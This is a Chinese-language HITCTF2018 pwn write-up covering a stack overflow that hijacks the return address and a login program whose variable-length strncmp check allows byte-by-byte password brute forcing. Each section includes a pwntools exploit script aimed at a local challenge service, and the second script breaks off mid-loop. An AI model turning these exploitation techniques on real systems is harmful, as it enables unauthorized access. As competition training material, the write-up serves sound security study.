# HITCTF2018 PWN WRITE UP
目录

[1.stackoverflow](#stackoverflow50)

[2.login](#login200)

[3.dragonball](#dragonball200)

[4.nodes](#nodes350)

[5.babynote](#babynote400)

## <span id="1">stackoverflow(50)</span>
一个很简单的栈溢出，可以覆盖返回地址设置好参数直接调用预先留好的flag函数，也可以自己设置参数去调用system(“cat flag”)，还可以用read函数把/bin/sh写在某个可写的位置上，然后system(“/bin/sh”)来拿shell。
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn100_stackoverflow/images/1.png?raw=true)
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn100_stackoverflow/images/2.png?raw=true)
```python
from pwn import *

#io = process("./stackoverflow")
io = remote("127.0.0.1",40000)

io.recvuntil("name:\n")
#gdb.attach(io)
io.sendline("a" * 0x2c + p32(0x080485df) + p32(0x0804862D) + p32(0xdeadbeef) + p32(0xc0ffee))
print io.recvline()
print io.recvline()
```

## <span id="2">login(200)</span>
一个登录系统，以root用户成功登录的话程序会直接cat flag，给出的程序里有root的密码，不过显然这个密码和服务器上运行程序的root密码是不一样的，从密码表示的意思也可以看出来。那么该怎么做呢，猜密码吗，显然不是的，这是一道pwn题，尝试寻找程序里的漏洞来获取flag。
	通过分析程序可以发现，当以root用户尝试登陆时，程序对输入进行了两次的检查，一次是在login函数，一次是在check函数，观察这两个函数，发现它们的检查方式有点区别：

![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn200_login_local/images/1.png?raw=true)
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn200_login_local/images/2.png?raw=true)

strncmp是指定长度的字符串比较函数，login的比较长度由read_input_raw返回，而check的比较长度则是固定的，再分析read_input_raw函数：

![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn200_login_local/images/3.png?raw=true)

read_input_raw函数返回输入字符的个数，当输入的字符为”\n”时，输入结束，且“\n”不计入字符数，分析到这里，可以发现在login函数里密码校验的长度的可以由我们的输入来指定，虽然不能通过check，但可以通过一字节一字节爆破的方式来得到服务器的密码，脚本如下：
```python
from pwn import*

passwd = ""
flag = ""
for i in range(0,32):
	for j in range(0x20,0x80):
		#io = process("./login")
		io = remote("127.0.0.1",40001)
		io.recvuntil("Username: ")
		io.sendline("root")
		io.recvuntil("Password: ")
		io.sendline(passwd + chr(j))
		x = io.recvline()
		if "How can you login successful as root!" in x:
			passwd += chr(j)
			if i == 31:
```